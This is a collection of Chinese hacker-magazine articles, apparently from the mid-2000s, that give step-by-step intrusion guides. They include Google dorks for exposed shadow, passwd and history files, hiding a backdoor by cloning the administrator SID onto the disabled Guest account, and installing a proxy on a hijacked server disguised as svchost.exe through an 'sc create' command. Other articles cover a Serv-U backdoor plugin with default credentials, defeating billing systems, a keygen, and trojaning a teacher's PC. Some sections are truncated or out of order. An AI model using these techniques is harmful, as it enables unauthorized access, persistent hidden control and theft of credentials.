嗅探工具种类繁多，有可以帮助管理员监听网络状况，如 Sniff pro、Iris 等；也有专门嗅探口令的（这类比较多），如 Win sniff（有两个版本，一个是命令行模式的版本，一个是 GUI 方式的版本，都能在 Win9x/NT/2K 下运行，可以在 http://www.winsniffer.com 下载到它的最新版）、安全焦点出品的 xsniff（我们今天的主角）、Fssniffer（小榕的作品，不过工具只能在 Win2K 或 XP 下运行）等等。

xsniff，我们今天的主角。目前在 Windows 系统下 xsniff 的使用是非常多的（只能在 Win2000 下运行）。xsniff 为安全焦点的 glacier 所开发（glacier 你可能不是很熟悉，但要说到他的作品——“冰河”，你应该一定熟得不得了吧？），在 http://www.xfocus.net 中可以找到它的最新版。

下面大家来一起认识一下这个 xsniff 吧！xsniff 是 Windows 下的一款非常不错的监听软件，优点是体积小（压缩包只有 20.8KB，解压后也不过 44.0KB）、操作方便，功能强大（可以捕获局域网内的 FTP/SMTP/POP3/HTTP 协议的密码）。当然，它也有缺点：xsniff 在运行时会自动绑定一个有效的网卡，从而使我们没有了“选择的余地”，因此，使用 xsniff 无法在局域网中手动绑定网卡来选择监听对象。不过，我们今天的任务，xsniff 是足以胜任的，因为我们是在本机进行监听。

```text
xsniff <选项>

选项及含义如下：
-tcp:  输出TCP数据报
-udp:  输出UDP数据报
-icmp: 输出ICMP数据报
-pass: 过滤密码信息
-hide: 后台运行
-host: 解析主机名
-addr <ip>: 过滤IP地址
-port <port>: 过滤端口
-log <filename>: 将输出保存到xsniff根目录下，filename即为保存输出的文件名
-asc: 以ASCII形式输出数据
-hex: 以16进制形式输出数据
```

来看一下 xsniff 的选项及含义：

好了，了解了以上内容，我们就可以开始行动了。先来下载一个 xsniff。（小编注：其实 X 光盘就有，记得居家旅行都带上哦。）

怎么连了半天也连不上网络？猫工作正常啊！怎么回事呢？难道电话线出现故障了？

“鲍鲍，电话线是不是出故障了。”我问鲍鲍。

“没有啊，怎么了？”

“网络不通。”

“哦，对了，我把网线拔了。”

“没事你拔网线做什么！”我埋怨道。

“哈哈，我在中毒的第一时间就拔了网线，以免遭遇不测。怎么样，我还算聪明吧？！”他再次做出得意洋洋之态。

我晕！插上网线，网络连接正常。顺利地下载了 xsniff，运行：

```text
xsniff -pass -hide -log pass.txt (如图)

xsniff -pass -hide -log pass.log -port:1044 -> 25
RIPT TO:<woshixiaotou@163.com>
```

```text
TCP [11/21/04 04:34:42]
192.168.1.23 -> 202.108.45.151  port:1050 -> 25
USER: 3fTKYfdfRQ== [woshixiaotou]

TCP [11/21/04 04:37:23]
192.168.1.23 -> 202.108.45.151  port:1050 -> 25
PASS: enJdjpdLQ== [ilovechunying]
```

这句的意思是监听包含 pass 关键字的信息，然后保存在 xsniff 根目录 pass.txt 文件中。xsniff 已经运行了，接下来登录一个不常用 QQ，登录后立即修改密码以防被盗。按 Ctrl+C 停止监听后打开 pass.txt，可见监听内容如下。

说明：第二行的 192.168.1.23 是局域网中机器地址，而 202.108.45.151 是 163 的 mail 服务器之一。从文件中可看出，QQ 杀手盗取 QQ 密码并投递邮箱为 woshixiaotou@163.com，密码是 ilovechunying。剩下的事情就完全由我们决定了。

帮鲍鲍清除机器中的 QQ 杀手木马，这次任务就算完成了。为了给不习惯命令行工具的朋友方便，文中也给出 GUI 版本思路。本文仅是嗅探技术在实战中的一个小应用，更大应用应在局域网嗅探研究中继续深入。

> **声明：** 本文只做技术讨论，请勿将本文所涉及内容用于非法活动，否则后果自负！

## 我的 Google 魂殿主

乱舞春秋 [Team π]

想必大家对 Google、百度等搜索引擎并不陌生，但你会想到它们强大的搜索能力是 HACK 一族挖肉鸡、入侵服务器的必备工具么？搜索引擎的查找大致可分为内容查找与路径查找两类。

### 一、内容型查找及实例

查找内容时可按需求选择关键词。对“非分之想”的黑客来说，关键词决定攻击成败。把“注入”“上传漏洞”“管理网页安全”等词与 Google Hack 联系起来，往往能搜索到可利用信息。

例如在检测 ASP 注入时，可搜索常见报错页面。将错误提示作为线索，点击目标站点后进一步手工处理，往往可发现注入点。类似方法对 ACCESS 数据库同样有效。

```text
Microsoft OLE DB Provider for SQL Server 错误 '80040e14'
字符串 ''' 之前有未闭合的引号。
/.../*.asp, 行 ***
```

可继续搜索“未闭合的引号”等关键报错；对 ACCESS 可搜索 “ADODB.Field.error” 或 “Either BOF or EOF in True” 等语句。

图1：搜索到出错页面。大量错误页可能对应注入点，深入测试还可转向 Oracle 等数据库目标。

```text
OraOLEDB 错误 '80004005'
ORA-01756: 括号内的字符串没有正确结束
/.../*.asp
```

只要你动脑，Google 不会让你失望。对于拿到弱口令或后台入口后的进一步渗透，搜索引擎也常能提供帮助与思路。

忙。在百度内的站内搜索中，输入网站及后台页面可能包含的文字，如：管理员、中心、登录、发布公告、添加软件等等。当然，如果你知道它所使用的系统就更好了，可以直接输入它后台入口的标题（注意：这种方法成功率不是很高，本人测试成功率大概 30%，最好与后文的路径查找相结合，也相当于后文的 site:www.xxx.com inurl:login）。

最后介绍一种比较“老菜”但很有用的一招，就是对别人已经入侵过的站进行二次入侵（因为很多人在入侵一个站后，都很懒得去补上它的漏洞，嘿嘿，好像有点卑鄙）。比如，我们搜大名鼎鼎的海阳，“管理员入口 海阳顶端”这个特征字符串。为了更精准，这里我配合利用了后文中提到的 inurl 参数，如图2。其实拿到这类网页木马方法很多，查找的特征字符串也不同，看意思和感觉了。搜到的站肯定是有漏洞的，看你能不能发现了。来看我是怎么在 2 分钟内搞定的一个 webshell 的，如图3。当然，我们还可以找现成的空口令 phpMyAdmin 等（小妮婆事件）。怎么 Google Hack 就看你的想像力了！

- type：文件类型
- site：站点所属域名
- index of：相关目录情况
- intitle：标题内容
- cache：某些内容的缓存
- info：查找指定站点的一些基本信息
- define：搜索某个词语的定义
- intext：内容
- +：将忽略的字列入查询范围
- -：把某个字忽略
- ~：同义词
- .：单一的通配符
- *：通配符
- " "：精确查询

这些东西会给我们很大帮助。比如我们要搜索含“dy”字符的 Access 数据库，可以：type:mdb dy；搜索相关 www.xxx.com 站的相关信息可用 site:www.xxx.com 或 info:www.xxx.com。其中 index of 在入侵中通常起相当大的作用。

据 ivory 介绍，通过 `index of admin` 可查到相关服务器上的管理文件及目录（注意格式）。将前几个参数综合利用，就很可能搜出一只 4 个 CPU 的大肉鸡（风过无痕就有一个，我是用威逼利诱等高级社会工程学手段获得了其 3389 用户，嘿嘿~）。这里，本人认为最最有价值的就是如下组合了，如图4、图5、图6。

```text
intitle:"index of" etc
intitle:"index of" ".sh_history"
intitle:"index of" ".bash_history"
intitle:"index of" ".passwd"
intitle:"index of" "people.lst"
intitle:"index of" "pwd.db"
intitle:"index of" "etc/shadow"
intitle:"index of" "spwd"
intitle:"index of" "master.passwd"
intitle:"index of" "htpasswd"
filetype:inc conf
（注：此部分是参考 snip-er 的方法）
```

你不会对这些信息无动于衷吧？！同样，你想到了搜索数据库的参数组合了吗？对，`inurl:database filetype:mdb` 或 `inurl:data filetype:mdb`，就是文件类型是 mdb、路径包含 database 或 data 的搜索过程，如图7所示。

### 二、路径型查找及实例

路径型查找，顾名思义就是所搜索的内容包含在一个完整的、可访问的文件路径中，如 www.eedd.net/join/login.asp 中的 login。

> 基础说明  
> inurl：路径内容

不记得在哪看到过搜索松下摄像头的文章，这里借用一下。是利用松下监控系统验证不完全，查找搜索 `viewFrame?mode=` 就可以找到此类型的松下监视器，大家不妨自己探索一下相关方面的东西，那样才会更好玩。

多的就不再啰嗦了。入侵就像堆积木，怎么组合、能组合成什么就要靠自己的双手和智慧了。希望此文抛砖引玉，文章有什么不足之处，还望大家一起研究。在此也感谢风过无痕一直以来对我的支持。Thanks!

# 傻瓜黑客

小鱼修炼中

相信各位小菜们都有过 3389 闪击吧！（什么？还没有？那接着看下去就可以 ^_^）但如果你登录 3389，都是用直接添加的帐号没做任何隐藏的话，不出三天管理员肯定发现。

如果你隐藏了帐号，对于有经验的管理员，可以在 CMD 下先输入 `cls` 再输入 `net user`，这样任何帐号都暴露无遗。今天，我来给各位小菜们教教如何利用被禁用的 Guest 帐号登录。

### 一、攻篇

首先，Guest 用户是系统自带的帐号，默认具有来宾权限。由于 Guest 帐户是系统的内置帐户，是删除不掉的（图1）。所以大多数管理员为了安全都将它设为禁用。如果我们能让被禁用的 Guest 以管理权限登录 3389，那么管理员就很难发现了，他怎么也想不到问题出在这个禁用的 Guest 身上。

图1

在开始前我们来看下原理性的东西：首先必须清楚，在 Windows 操作系统以及其他操作系统中，引用帐户时都是使用唯一的标识（即 SID，Security Identifier），在帐户“出生”时都被赋予了一个唯一的 SID，所以就算我们创建一个与先前已有帐号同名的帐号，该帐号也不具备先前帐号的权限和访问许可权。

> SID 的格式是：`S-R-A-S-S-S-S`

- `S`：标识 SID
- `R`：版本号
- `A`：用于标识此次 SID 的当局
- `S`：子域值，是一系列子码，对用户进行唯一标识

在 Windows 中默认管理员帐号 Administrator 的 SID 是固定的 500（0x1F4）。好，知道了原理我们就开始实战：首先用一个具有管理权限的帐号登录 3389，再右键单击“我的电脑”，选择“管理”，展开“本地用户和组”“用户”就能看见被禁用的 Guest 了。我们双击它跳到属性对话框，再将“帐户已停用”前面的勾去掉，在“隶属于”中添加 Administrators（如图2、图3），然后确定，再右键单击 Guest 帐号给它设个密码。

图2

图3

接下来，就是通过注册表实现我们的目的。在 Windows 默认情况下，注册表的 `HKEY_LOCAL_MACHINE\SAM` 下是不能展开的，所以我们就要用到 regedt32。在 CMD 或者“运行”里输入 `regedt32` 就可打开。右键选中 `HKEY_LOCAL_MACHINE\SAM` 的“权限”，将注册用户的 Administrators 设置为“完全控制”（图4、图5），然后再打开 regedit，这样 SAM 就可见了，接着展开到如图6的位置，就可将 NAMES 下的 Guest 项导出。

图4

图5

图6

再将 Users 下的 01F4 和 01F5 导出。现在到了关键地方，打开导出的 01F4，复制如图7的部分；再打开 01F5，将刚复制的粘贴到同样的位置（图8）；将做好的 01F5 的所有内容复制（除最上面的那句），然后打开 guest，将 01F5 的全部内容粘贴到上面（注意：要空一行，如图9）。

```bash
cls
net user
regedt32
regedit
HKEY_LOCAL_MACHINE\SAM
```

接下来右键单击“我的电脑”选择“管理”，展开“本地用户和组”，并将 Guest 用户禁用掉，在“隶属于”删除 Administrators。好，到这基本上成功了，再将做好的 Guest 导入注册表，退出 3389，后用 Guest 用户登录，看看是否成功了。最后注意一下，我测试的时候，有些服务器登录后，在“管理”里 Guest 用户前面没有那个叉号，我们只需将它禁用就 OK，这样也能登录。

### 二、防篇

既然 Guest 用户这么可恶，我们能不能删掉？答案是肯定的。但是手工删除对于我们菜鸟来说太难，有没有快捷办法呢？答案还是肯定的。大家看刘×10 这款 Guest 删除大师，不仅可以删除 Guest，还检查了系统是否有隐藏帐户，就是 Administrator 也能删除。

好了，文章就到这，各位小菜有什么不懂可以到 X 论坛找我交流。

（本文相关工具：Guest 删除大师，光盘有收录。）

---

## 斩断黑手的冰刃

smallrascal^

网虫的我，经常在学校或网吧泡网，但不是闯祸太甚就是管理系统限制太多，总之没有鱼和熊掌兼得的时候。直到有一天遇到了 IceSword（即冰刃），才结束了这噩梦般的日子。在短短的一天内“破解”了两个计费／管理系统，且都是“高手”之作啊！一个是利用了线程插入——当今木马几乎都使用了这种技术；另一个则是利用 IC 卡在本机计费、控制端进行远程管理的软件结合的系统。不信，我带你走，呵呵！还是跟我来吧。

### 一、电子阅览室计费／管理系统

根据图1，我们可以判断当前计费系统正在运行着，且没有出现任何不正常现象。随后我打开 Windows 任务管理器，在其中除了一些系统进程及我自己运行的程序外，没有发现计费系统的进程，也没有发现异常现象，看来它把自己很好地隐藏起来了，如图2所示。

连进程名都不知道，那该如何是好呢？突然，我脑中闪过一个念头，会不会用的是线程插入技术？这是一种把程序进程插入到其它进程中作为线程执行的技术，一般用于病毒或木马。它所找的宿主对象一般是操作系统自身的进程，因为这些进程用户不会怀疑，不会被轻易结束，而插入的对象也就不会被轻易终止。根据我以往“破解”的经验，预计费系统不是在“Program Files”下，就是在“WINNT\system32”目录下，所以只要根据图1中在任务栏托盘区显示的图标去找就可以了。在寻找了一段时间后发现其在“WINNT\system32”下，文件名是“ELibClt.exe”（图3）。

找到了路径就找到了目标，下面该是利器——冰刃，登场了。打开冰刃，点击主界面左面功能列表中的“进程”图标，会看到在其右方立刻会出现当前的进程列表，这里的可不仅仅显示出进程哦，插入的线程同时也被显示出来了。不信就看图4，“WINNT\system32\ELibClt.exe”本不起眼在其中啊！而且还是以红色表示的，代表这个进程不是一般的，很可疑，给出警告。

图4

现在计费系统的进程找到了，那如何“破解”呢？回到图4，在那个进程上单击鼠标右键，会出现如图6的菜单，选择“模块信息”那一项。稍等片刻就会给出该进程调用的所有 DLL（动态链接库），选中“wsock32.dll”那一栏。这个 DLL 提供了网络通讯的功能函数，也就是说计费系统是通过这个 DLL 提供的功能和远端进行联系的，只要将其结束掉，就终止了联系，但是程序却不因此而崩溃。

图6

随后点击右边的“强制解除”按钮（图7）。奇迹出现了，我的帐号又可以在另一台机器上登录了（注：此计费系统为了防止一号多用，限制了在同一时间只能有一台机器上用），这也就表示我现在是处于免费状态。一个计费系统就这么完了。不过瘾吗？那就再来一个。

图7

随后点击工具列表中的“端口”图标，会发现这个计费系统打开了几个端口，其中有一个是已建立（ESTABLISHED）状态，另外两个是正处于监听（LISTENING）状态，以便控制端进行管理（图5）。

图5

估计这两个进程是关联了。为了证明我的想法，就去网上下了 11 款可以同时结束多个进程的管理软件，但是不知道为什么，同时结束这两个进程要么就会被创建，要么就重启。看来确实是关联了，就是以往很好用的软件到这里却不好用了，很是郁闷。估计是计费系统的重建检测时间比多进程管理软件短吧，便拿起我的法宝——冰刃，在进程列表中选择这两个进程，单击鼠标右键会弹出“结束进程”的菜单（图8）。

图8

将这两个进程结束掉，说来也很奇怪，竟然没有重新创建，也没有重启。呵呵，又一个计费系统被搞定了，就这么简单，不需要知道原理，也不需要多高深的技术。

### 二、IC 卡计费／管理系统

在平时上机的时候我有个习惯，那就是把不用的进程及服务给终止掉，一来可以节省资源，二来可以很清楚哪些是异常进程，今天也不例外。这套系统与上面的不同，在任务管理器里面很容易就找到了其进程，但是却出现了奇怪的一幕：当“RUNDLL32.EXE”进程被终止时又会被重新创建，结束“NetStarCli.exe”时系统会重新启动。

### 写在最后

这个软件相当实用，这里仅仅介绍了其“进程”和“端口”两个功能。其它的，如“内核模块”“服务”及“SPI”，对付各种木马、病毒时都非常有效，对于内核级的 backdoor 也同样有效。是不是很爽啊，还是留给大家慢慢玩吧！同时也要感谢软件作者为我们创作了这么好的一个软件。

（本文所涉及的相关工具：IceSword，光盘中有收录。）

---

## 不被查杀的代理服务器是这样炼成的

卢奎

最近比较空闲，想到国外网站上溜达溜达，无奈学校根本上不了国外网站，只能上国内的，不好意思只好想办法了。我便想到找台肉机作个代理，反正我也好久没人侵了，正好练练手。（呵呵，这应该不算犯罪理由吧！）

我习惯用 sa 空口令入侵，打开 WINNTAutoAttack，专门扫 sa 空口令。不久我就找到了一台，马上拿 SQLTools，上传事先已配置好的 radmin，自解压压缩包至对方系统目录下，执行它进行安装。打开 Radmin Viewer 进行连接，连接成功（如图1），复制 snake sockserver 并安装，结果未成功。仔细一看原来是杀毒软件在作怪，试了其他几个黑客代理软件皆未成功。

虽然我已成功控制了这台主机，可是我的目的是在上面安装代理上国外网站呀！也许有的朋友会说，你可以先停掉杀毒软件的服务和进程，然后安装呀！我也这样想过。但是，我想用它长期做代理，而对方重启后，杀毒软件依旧会杀掉我的代理程序或报警，入侵到这里挺郁闷的。

难道说我就这样放弃吗？那可不行！毕竟看了这么长时间的黑客杂志，也学会了独立思考解决问题。（有作广告的嫌疑呀！）经过一小会儿的思索，想一想经常用的代理软件。突然，灵光一闪！我不是经常在局域网内安装 CCProxy 作代理吗？我不可以在对方机器上安装它呢？直接运行应该是可以的，但我想把它长期作为代理的话，却又不行了。试想对方一重启机器，不就泡汤了吗？看来应该把它安装为服务，以便重启后也可以运行。

我又想到 CCProxy 本身可以服务方式运行的功能。对，就这么办！有了思路，接下来就是实践了。为了安全起见，我先在本机作实验。运行后注册，以免有些功能受限，界面如图2，然后点击“设置”，进入设置界面，如图3，勾选相应的协议和设置相应的端口。在这里我们只选 SOCKS/MMS，端口设为 5678，并在 NT 服务前打勾。点击“高级”，进入高级设置，再点击“日志”选项卡，如图4，取消“保存日志文件至”。点击“其他”选项卡，如图5，取消“禁止局域网外部用户”，并勾选“隐藏所有”“密码保护”，设置相应密码，“语言”可不管，一般是 ChineseGB 即可，最后点“确定”退出设置界面。

我们再看一下它在服务列表中的有关服务信息是什么！在服务列表中找到 CCProxy，双击如图6，记下它的可执行路径格式：`D:\Program Files\CCProxy\CCProxy.exe service`，是不是和 radmin 有些类似呀？

接下来回到 CCProxy 的主界面中，进入设置界面把“NT 服务”取消。然后，我们拿出 `sc.exe`（管理 Windows 系统服务的工具），在 CMD 下输入：

`sc create Sys binPath= "c:\Windows\System32\com\Svchost.exe -service" start= auto DisplayName= "System service"`

其中 svchost.exe 是我改名后的 ccproxy.exe，事先已复制到 `C:\Windows\System32\com`，并把 CCProxy.ini 一起复制过去。

现在启动服务，用 `net start` 查看服务列表中该服务是否已启动。再用 `netstat -an` 查看端口列表，如图10，5678 端口已被服务打开。进入 SocksCap 进行设置，服务器为 `127.0.0.1`，端口 `5678`，并选择“远程解析所有域名”，如图11。

然后，回到 SocksCap 主界面，选择“新建”把 IE 加进来并运行它，如图12。在 IE 浏览器地址栏中敲入 `www.163.com`，呵呵，可以上网，如图13。

接下来的任务我就不用说了吧，当然是把所需文件复制到肉鸡上进行安装。为了方便，你可以做一个批处理，并用 WinRAR 把所用的文件打包成自解压格式，这样做可是很方便的哟！下面是我在肉鸡上设好代理后上雅虎时的截图，如图14。

不过，这种方法虽然不会被查杀，但对于经常查看端口和熟悉系统服务的管理员来说，还是会被他们发现的。尽管我们已经给程序加了密码，由于程序本身是把配置信息保存在程序所在目录下的 ccproxy.ini 中，加密后的密码也在里面，因此有不少信息可能会被暴露……因此，我们要进一步隐藏，例如把这个文件和 CCProxy.exe 的属性改为“隐藏”和“系统”，替换系统服务名叫 ClipBook，或是改成更有迷惑性的名字。

怎么样，讲了这么多，你是不是也心动了呢？是不是也想打造自己永不被查杀的代理服务器呢？心动不如行动，还等什么，那就快去吧！如果您对本文还有什么不明白的地方，或是有更好的建议，欢迎和我一起来探讨。

（本文所涉及的工具：WINNTAutoAttack、SQLTools、radmin、CCProxy、sc.exe、SocksCap，光盘中有收录。）

---

## 另类后门：Serv-U 下的后门

小鱼修炼中

首先祝大家 5.1 节快乐，肉鸡多多。今天我给大家带来一款 Serv-U 下的木马，其实准确地说它不能叫木马，因为利用的是 Serv-U 的第三方插件。（明白了么？我的意思就是它不被查杀。）

先来介绍一下原理：利用 Serv-U 支持第三方插件，使我们的插件可以加载自定义数据库文件中的帐号，并令这些帐号可以登录上 Serv-U 服务器，且具有帐号本身所配置的权限。

### 该后门的最大特点

1. 自定义数据库，密码是 MD5 加密，可配置所有 Serv-U 提供的权限。
2. 将 Serv-U 的返回信息部分处理过，若登录帐号是数据库中的帐号，成功后会显示该帐号具有的功能等信息。
3. 如果管理员定义了 Serv-U 日志记录，会被后门进行过滤。

现在，我来教大家如何配置。既然帐号信息放在数据库文件中，我们当然要先配置数据库文件。这个后门分为三个文件：Creator.exe（用于建立一个 ServU.DLL 可识别的“数据库”而设的程序）、editor.exe 和 ServU.DLL。我们先用 Creator.exe 来配置数据库文件（这里一定要注意：数据库文件必须是 Public.Dat）。

```bash
Creator.exe Public.Dat
```

数据在里面，当然是空的，接下一行会显示你可以输入号码（如果数据库有账号资料在，账号会以 1、2、3、4 的顺序显示出来；如果要建立新账号，按下 A，然后回车）。我们按下 A，然后回车开始对数据库进行详细设置：

- “UserName =”——这里你要输入登录的用户名并回车。
- “Password =”——你要输入密码（密码是用 MD5 加密的，所以别人拿到数据库也不用太担心会被人直接看到密码），输入并回车后会显示。
- “ShellPassword =”——这里不用管它，随便输入就行。
- “FTPAccess(Any Of ACDELMRUW) =”——可以输入权限组合，也可以输入 All（所有权限）。
- “RootDir”——FTP 根目录，必须是存在目录。
- “MaxLoginIP =”——同一 IP 可同时登录次数。
- “MaxUsers =”——该账号可被登录次数。
- “Are You Sure To Save(Y/N)?”——按 Y 保存。

以上就是建立一个账号数据的过程。这里再说一下，如何修改数据库中的内容，比如数据库中已有一个账号叫 help。我们运行 Creator.exe Public.Dat（Creator.exe 和 Public.Dat 要在同一个目录下），只要我们输入账号对应的号码并回车，就能看到 help 这个账号的内容（图2）。

我们可以输入 1 到 7 的号码去修改相应内容，修改后还会出现你是否要将数据保存的询问，按“Y”并回车才算确认并保存数据。也还可以输入 D 或 Delete 并回车去删除这个账号，或者输入 E 或 Exit 去返回上一层控制。

- 1. 最多只能建立 16 个账号！
- 2. 要 ServU.DLL 能识别到，数据库文件一定为 Public.Dat，并且一定要放在系统目录！

到这你的数据库文件已经建立成功了，现在将 editor.exe、ServU.DLL 以及 Public.Dat 上传到你想装这后门的肉鸡中去，editor.exe 和 ServU.DLL 一定要放到 Serv-U 的安装目录中去，Public.Dat 则要放到系统目录中去。

```bash
editor.exe xiaoyu.DLL /Add
editor.exe ServU.DLL /Del
editor.exe xiaoyu.DLL /Del
```

一切准备就绪后，命令行下进入 Serv-U 目录，运行 editor.exe ServU.DLL /Add，成功后会写入 ServUDaemon.ini。若你的 DLL 文件名不同则替换文件名。删除后门时使用 /Del 参数删除对应条目。若 Public.Dat 被删或被隐藏，后门会回落到默认账号（如 WinEggDrop）及默认密码（如 NeverGiveUp）。

好了，文章就到这，有什么问题我们以后再讨论。（本文所涉及的相关工具：editor.exe、ServU.DLL、Creator.exe，光盘中有收录。）

## 加密数据库的克星：

一日暴出了一个网站的数据库，是微软的 ACCESS 数据库，兴奋地 DOWN 了下来，可是一打开傻眼了，要密码（图1）。首先想到暴力破解，网上有很多这类软件，搜索后找到“CrackAccess1.2”，看介绍觉得适合需要。

忘了给大家介绍这个软件了。Access 密码破解者（CrackAccess1.2）可以破解 Access97/2000/2002 密码，无论密码长度，都可以破解。老版本未注册前只能显示前 3 位密码。软件使用很简单：先导入要破解的 ACCESS 文件，点击“...”选择 mdb 文件，再点击开始破解即可。

# 傻瓜黑客

我试过了，当我把数据库密码设置成“dog”时，可以说还没用到 1 秒钟便破解了出来，各位心动了吗？有人会问那么假如是 10 多位的密码且是：“字母+数字+符号”呢？经过我的测试也是一小会儿就破解了出来，怎么样？很吃惊吧？

再说一下注册机的用法，菜“牛”跳过，解压后，文件夹里有 3 个文件，一个是主程序，一个是注册机，一个是“天天安全网”的介绍 WEB，如图3。

我们先运行注册机 keygen，它会告诉你注册机要放在主程序的同一目录下（图4）。

点击确定后主程序自动运行，点击注册按钮，随便输入用户名和注册码，点击注册，会弹出注册码错误的提示对话框。但同时注册机会弹出一个显示正确注册码的窗口（这个应该是因为 Crack Access1.2 是把密码放在内存里明文比较的原因吧），如图5。

复制下正确的注册码，注册成功。之后，再打开软件如图6、图7。

我们再来破解一个复杂的数据库密码吧，选择好源文件。破解，1 秒钟不到，如图8。还显示了数据库的类型呢：Access 2000 or 2002。这里提醒大家的是它只能破解 ACCESS 97/2K/2002 的密码。

总的来说 CrackAccess1.2 是一款不错的数据库密码破解软件，它比用字典来跑，的确更省时省力，大家自己去试一试吧。

## 浅谈终端服务终端服务引起的故障

——应 2004 年 8 月号《问题征解》

张小勇

一天开机后，发现任务管理器出现故障，具体就是无法终止进程。如图1，即是试图结束金山词霸的进程 xdict.exe 时，系统给出的错误提示，“绑定句柄无效”，听起来似乎很熟悉。我上网去查了查，没发现什么有价值的信息。后来过了几天才发现在 2004 年 8 月号的《黑客 X 档案》上，有这样一篇《问题征解》，作者在其中描述的故障和我这里的一模一样。我的兴趣一下就上来了，研究一下这个问题吧，顺便还能骗点稿费，嘿嘿。

首先，我要思考一下在出现这个问题之前，自己都进行了什么特别的操作。想啊想啊，我终于想起前几天在整理硬盘上的一些工具软件的时候，似乎运行过这样一个程序：djxyxs.exe。想必大家都知道了，这是命令行下开启终端服务的工具。对了吧，应该就是它了。马上到注册表登记服务的地方看看，出乎意料的是，我竟然发现了“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD”、“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService”这两项。真奇怪，我以前删除过 Win2000 的终端服务，这两个注册表项应该是不存在的，看来应该是 djxyxs.exe 这个程序加上的。

让我们仔细研究一下它们，在 TermDD 的右边的“ImagePath=\SystemRoot\System32\drivers\termdd.sys”，这是终端服务的驱动文件；TermService 则为“ImagePath=%SystemRoot%\system32\termsrv.exe”，这个就是服务程序了。而它们的启动方式都为自动启动（图2）。

那么，这个故障是由这两个注册表项引起的吗？答案是否定的。其实在我的硬盘上根本就找不到 termdd.sys 和 termsrv.exe 这两个文件（以前删掉了）。如果大家有疑问的话，可以把这两处子键的启动方式都改成禁用，即“Start=dword:00000004”，就可以发现，故障依然是存在的。

我是这样思考这个问题的，既然问题与这两个项目无关，那么在注册表中应该还有其他对于 Terminal Service 的控制项。以“terminal”为关键词搜索，发现 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server 这项，并且在其下有一“TSENabled=dword:00000001”。从字面意义来看，应该就是启用终端服务。把这个值改为 0，重新启动电脑，可以用任务管理器结束进程，故障解决。

总结一下，在我的这个例子里，是由于 termdd.sys 和 termsrv.exe 这两个文件不存在，终端服务自动失败，从而造成故障……

最后再说一点，在修理任务管理器这个故障的同时，其实系统还有其他一些“并发症”：首先是系统关机菜单中的“等待”项目消失（图3），其次是输入密码登录系统之后要停顿较长时间……

以上所有测试均是在 Win2000 Advanced Server + SP4 上完成的，欢迎在 X 档案的 BBS 上提出补充意见。

winston & 20NT

冰舞 2.5，是由 20NT 的成员研发的一款 ASP 注射工具，这个工具功能十分强大，使用也简单方便……

首先，让我大体了解一下冰舞主体部分，它分为：整站分析、脚本注入、跨站列表、探测后台、跨站上传等。

在目标网址中填写你要探测的网站地址，例如：http://www.targat.com，然后点击开始探测……可在列表中找到可能注射漏洞的 URL。

再点击“开始注入”，会在最小 ID 和最大 ID 中分别显示……可直接把获得的管理员表、ID 字段、账号字段、密码字段填写进去。

### 2. 脚本注入（图3）

### 3. 跨站列表（图4）

废话不要了，我们分别介绍一下功能。

### 1. 整站分析

在整站分析中可以看到，分为可能存在注射漏洞的 URL 和可能存在暴库漏洞的 URL（图2），功能与 NBSI 相同……

进入后你会看到关键字，这是能否成功注入的关键。常见测试方式是在 URL 后添加 “and 1=1” 和 “and 1=2” 观察页面差异……

不一会，你会看到探测返回信息中出现结果：是否存在注入漏洞、数据库类型、是否自动暴库、手动开始、SQL 注射按钮等。

大体功能和老兵的域名查询工具相同，冰舞还可自动查找对应域名是否存在 BBS，同时检测是否有上传漏洞。

### 4. 探测后台（图5）

这是为了方便不擅手动寻找后台管理路径的用户，能自动对常用后台管理路径进行扫描。

以上就是冰舞的使用过程，可见其功能的强大。（本文所涉相关工具：冰舞 2.5，光盘中有收录。）

# 傻瓜黑客

看了一年的 X 档案，真的很羡慕高手们能在入侵之后为我等菜鸟传授宝贵的经验。今天我这只小菜鸟也来尝试一下入侵的滋味，目标就是学校的局域网。先介绍一下概况：教师机一台，50 台学生机，系统是 WIN98 的，装有杀毒软件，配合“联想传奇”进行管理教学（如图1）。只要搞定教师机，就能用联想传奇来“统一江湖”了。废话少说，开始行动吧！

### 一、上传木马

我用的是 RADMIN 自解压木马，理由是比较安全，能躲过大多数杀毒软件，而且操作简单。具体配置可参考前几期的 X 档案。有一点要提的是，解压路径用“c:\windows\n>>, %systemroot%\”在 WIN98 下无效。上传比较简单，与作业捆绑，一起交给教师机就行了，老师会在当天查看我们的作业，剩下的就是等待了。

### 二、远程控制

第二天我迫不及待地用客户端连接教师机，成功了（如图2）。看来老师的安全意识不高，或许是太信任我们了。因为老师正忙于操作，我只能在硬盘转了一圈，全是文件，我不太感兴趣。进入下一步吧！

### 三、取得传奇密码

趁老师去办公室时进行远程控制。启动传奇，跳出一个窗口，要求输入编号和密码（如图3）。随便输入后跳出错误窗口，难道要现写 crack 不成？先把文件下载到本地再说。下载后竟无法运行，更别说破解了。正当我绝望之际，忽然想到教师机是多个老师共用，密码一定不会复杂，或许有默认密码吧！赶紧查看文件，发现有个 HELP 文件夹，打开一看是帮助文件。浏览后发现有默认编号和密码。太好了，立马在教师机上运行传奇，填入编号和密码，成功了！（如图4）屏幕监视、远程控制、关机、屏幕广播、聊天等等。利用这个“合法木马”，我便可以“统一江湖”了。

### 四、总结

本文并没有什么高明的技巧，只是想告诉像我一样的菜鸟们：刚开始起步可能会比较困难，可以先在局域网内练习，慢慢积累经验，遇到问题要冷静，灵活变换，不要生搬硬套别人的方法。只要持之以恒，总会有所突破。（本文所涉及的相关工具：RADMIN 木马“可参见 05 年 1 期的杂志——自己种木马自己食——菜鸟的木马教程”、捆绑工具光盘中有收录。）

当你通过远程缓冲区溢出得到反向连接的 cmd shell，或者通过 SQL Injection 得到 Web shell，但目标主机存在 TCP/IP 端口过滤或严格防火墙限制时，就需要一种可绕过限制的方法。文中引出 HTTPTunnel：将通信伪装在 HTTP 可通行流量中，通过允许端口穿越防火墙并在另一端还原。

### 关于 httptunnel

Tunnel 即“隧道”。HTTPTunnel 的核心是在 HTTP 请求中建立双向数据连接，把原始数据封装成 HTTP 数据包传输，到达目的端后再解封并转发给对应服务。理论上可穿越允许 HTTP 的防火墙环境，尤其是仅放行 HTTP 的网络。

文中说明 httptunnel 已有 Windows 版本，可从 nocrew 网站下载。压缩包中常用文件包括 `htc.exe`（客户端）、`hts.exe`（服务端）和 `cygwin1.dll`（运行依赖）。

### httptunnel 3.0 的使用方法

